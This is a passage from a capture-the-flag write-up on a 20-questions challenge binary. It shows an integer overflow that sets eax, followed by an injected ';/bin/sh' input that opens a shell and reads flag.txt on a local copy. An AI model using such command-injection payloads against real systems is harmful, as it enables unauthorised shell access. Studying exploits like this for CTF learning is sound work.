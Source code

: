 Woah, eax is 0! So now we are going to hit that weird jump code. Now the question is, what does eax have to be to get the system code to be called? Well we could do the math here, or since we know eax can only be 0, 1, 2 or 4 we could just try setting eax to be those different numbers until we get it to work :D
{% highlight bash lineanchors %}
➜  yvr  ./delphi 
Welcome!

Are you ready to play 20 questions? No? Perfect!
Im thinking of something big, metal, and orange. Go!
> go asdf 65494    # 2^16 - 42 + 0 == 65494 means eax = 0
> go asdf 65495    # 2^16 - 42 + 1 == 65495 means eax = 1
> go asdf 65496    # 2^16 - 42 + 2 == 65496 means eax = 2
> go asdf 65497    # 2^16 - 42 + 3 == 65497 means eax = 3
> go asdf 65498    # 2^16 - 42 + 4 == 65498 means eax = 4
asdf
> 
{% endhighlight %}

Boom! So we got that system call to be executed and all it does right now is "echo <our string>". But if you look at the code again, it simply concatinates the 2nd part of our payload to the echo without checking for special characters, meaning we can just put a semicolon and execute arbituary commands :D
{% highlight bash lineanchors %}
➜  yvr  ./delphi
Welcome!

Are you ready to play 20 questions? No? Perfect!
Im thinking of something big, metal, and orange. Go!
> go asdf;/bin/sh 65498
asdf
$ cat flag.txt
flag{something or other}  # Not the actual flag, running locally
$ 
{% endhighlight %}

Not too bad of a challenge, really was more reversing than actually exploitation. So when it all boils down, you have to reverse a basic command protocol, exploit an integer overflow and use metacharacter injection. For 200 points I would say that is reasonable :D
